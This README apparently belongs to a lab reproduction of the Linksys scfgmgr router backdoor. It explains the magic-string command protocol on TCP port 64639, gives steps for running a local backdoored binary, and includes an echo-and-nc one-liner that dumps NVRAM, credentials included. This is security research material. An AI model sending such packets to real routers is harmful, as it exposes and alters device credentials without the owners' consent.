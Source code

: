 # Linksys OpenWAG200G scfgmgr backdoor
- **Type**: hidden command
- **Affected versions**: multiple routers (see [reference](#reference))


## Backdoor
The executable `scfgmgr` contained in the firmware at `/usr/sbin/scfgmgr` is a server listening on
port 64639/TCP. The port number may vary between different versions. Upon receiving a packet
starting with the magic string `"MMcS"` (or `"ScMM"`, depending on the endianness), it interprets
the following 4 bytes as a command:
- `0x0001`: dump the NVRAM (including credentials)
- `0x0002`: get the value of the NVRAM entry (specified in the sent packet)
- `0x0003`: set the NVRAM entry to a value (both specified in the sent packet)
- `0x0004`: commit NVRAM
- `0x000b`: reset NVRAM to default settings (including credentials)


## Triggering the backdoor
First, we need to copy the file used as a stand-in for the actual NVRAM to `/tmp`:
```console
$ cp ./nvram /tmp/
```
Then, we need to start up the `scfgmgr` binary (e.g., with the _backdoored_ variant):
```console
$ ./backdoored/scfgmgr
```
In a separate terminal, we can trigger the backdoor (e.g., to dump the NVRAM):
```console
$ #             | command      | payload size  |
$ echo -en "MMcS\x01\x00\x00\x00\x00\x00\x00\x00" | nc localhost 64639
... [NVRAM dump] ...
```


## Reference
<https://github.com/elvanderb/TCP-32764>
